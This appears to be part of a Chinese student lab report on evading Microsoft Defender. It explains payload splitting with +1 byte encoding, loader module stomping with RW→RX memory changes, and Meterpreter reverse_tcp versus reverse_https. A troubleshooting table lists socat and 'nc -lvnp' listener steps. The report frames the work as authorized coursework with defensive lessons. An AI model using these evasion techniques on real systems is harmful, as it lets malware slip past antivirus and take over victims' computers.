为什么组件分离能过静态层。 把恶意字节从 exe 拆出去后，装载器与数据件各自“无害”：加载器只有读文本、改内存保护、开线程这类通用 API 调用，翻遍文件无指纹；载荷在文本文件里且逐字节 +1“变脸”，对杀软只是普通文本（而且低熵，不触发启发式）。两份“无害”文件直到运行那一刻才在内存里合体——而静态扫描只看文件、看不到内存。
为什么要模块踩踏 + RW→RX。 行为引擎对“申请私有可执行内存（RWX）并执行”高度敏感。把代码写进已加载系统 DLL 的 .text 段（写时复制，只影响本进程），执行内存就有文件映射背书；先 RW 写入再改 RX，避免 RWX 一次到位的申请模式。最小可用版（VirtualAlloc RWX）能过静态但行为面更差，模块踩踏版把这条行为特征也抹掉了。
传输层与行为特征。 reverse_tcp 是分阶段载荷：stager 建立连接后自行申请 RWX 内存、把约 200KB 的第二阶段收进去执行，“外连 → 自申请 RWX → 接收大段代码 → 执行”在理论上是一条显眼的行为链；reverse_https 改用系统组件（WinINet + TLS）收发，行为面更小。但本实验的实测证据是：两环境的 reverse_tcp 均稳定回连，B 环境出现过一次拦截、复测未再复现——行为判定存在概率性，传输层不是本实验成败的决定因素。教训修正：遇到运行时拦截，先复测再归因；换传输层、模块踩踏都是可尝试的路径——免杀是载荷、加载器、传输三方的系统工程。
防御启示。静态特征只能对抗“已知生成模板”；组件分离可以骗过静态层；但运行时行为（RWX 内存、异常外连）终会暴露。对防御者而言：行为监测与纵深防御（EDR、最小权限、应用白名单）才是对抗此类威胁的根本手段；对普通用户而言：默认系统设置、及时更新特征库、不运行来源不明程序，依然是性价比最高的防线——图23/图24 里对方电脑杀软“扫描无威胁”却屏幕、摄像头尽失，就是最好的警示。
| # | 坑 | 现象 | 根因与修法 |
|---|---|---|---|
| 1 | +1 加密忘写 % 256 | loader 一运行就闪退 | 0xFF+1 不取模会 printf 出三字符 “100”，整文件错位；加密端必须 (ord($b)+1) % 256，与解密端 -1 严格互逆 |
| 2 | loader 秒退、handler 无会话 | 双击无反应，cmd 前台运行也秒退 | 生成 encoded.txt 时 LHOST 填的不是 Kali 当前 IP（虚拟机重启后 IP 变了）；重新以正确 IP 生成即可，失败现场见图17 |
| 3 | UPX 报 CantPackException: section size problem | 没法给 msfvenom 模板 exe 加壳 | msf 模板 PE 节表不规整；把加壳对象换成 mingw 自编译的 exe |
| 4 | 运行时偶发拦截 | Behavior:Win32/Meterpreter.gen!D（B 环境出现过一次） | 行为判定具概率性：先复测（本例复测未复现）；仍被拦再尝试换 reverse_https 或模块踩踏 |
| 5 | 双击 loader 无反应 | 窗口一闪而过没法排查 | 一律在 cmd 里前台运行（cd 到目录后 .\loader.exe），且保证 encoded.txt 同目录 |
| 6 | PowerShell 提示“无法将 socat.exe 识别为 cmdlet” | 转发命令直接报错（图20） | PowerShell 不从当前目录加载命令，加 .\ 前缀：.\socat.exe ... |
| 7 | socat 接收连不上 | Windows 侧连接被拒 | socat 在这里是客户端，必须 Kali 先 nc -lvnp 监听（注意 15 秒窗口）再回车 |
| 8 | jar 报 Unable to access jarfile | 以为传输坏了 | 其实是 Defender 已把它隔离——去保护历史记录看一眼就明白（图13） |
实验指导书给课题留了四个基础问题，这里只列问题、不给答案——建议做完实验再回头作答，你会发现每一个都能在前文的实测结果里找到证据：
提示：分别对应「预备知识」的三层检测表、五级演进每一级的死因汇总、以及附加题里对方电脑的结局。
这个实验最有说服力的画面，是同一个目录、同一秒钟里发生的两件事：对照组 exe 弹窗被杀，而旁边两个“组分合体”的文件——一个纯文本、一个普通小程序——安然无恙。这说明现代杀软的静态层已经把“公开工具的生成物”收录殆尽，编码和加壳只是在已有特征上打转；有效的免杀必须改变“恶意特征存在的方式”本身。而运行层的故事（一次未复现的运行时拦截，以及 tcp/https 在两套环境双双稳定通过）则提醒所有人：行为检测是概率性的、有边界的，对抗永远不会在一层结束。
作为防御方的练习，建议读者复刻完攻击链后反过来做三件事：把 loader 交给 VT（VirusTotal）看引擎命中率、在 Defender 安全中心翻一遍“保护历史记录”体会行为引擎的判定时机、再给自己的常用电脑做一次“如果它静默回连我会不会发现”的推演——攻防视角的切换，才是这个实验最大的收获。
再次声明：本文全部操作仅限于课程授权的教学实验环境（自建虚拟机与自愿配合的同学电脑），样本生成后已全部清理（删除样本文件、注销会话、恢复杀软开启状态）。请读者勿将文中技术用于任何未授权场景。
环境与版本备忘：Kali Linux 2026.2 / Metasploit（msfvenom、msfconsole）/ mingw-w64 交叉编译 / UPX 4.2.4 / socat 1.8.1.1 / Microsoft Defender（AMProductVersion 4.18.26080.4，特征库 1.459.501.0）/ Windows 11 24H2+（内核 10.0.26100、Build 26200）。
>
分工说明：A（20242110）完成五级演进全部实测（图1～8、14、16～17）与跨网段附加题（图20～24），并提供最小可用版加载器；B（20242217）完成模块踩踏版加载器与 x64 变体（图9）、UPX 闭环（图10、19）、tar+socat+MD5 传输链（图11～13）、三文件扫描复核（图15）、传输层实测（图18），以及图1/2/3/8 的 B 侧同阶段对照（滑动对比的②③张）。转载请注明出处。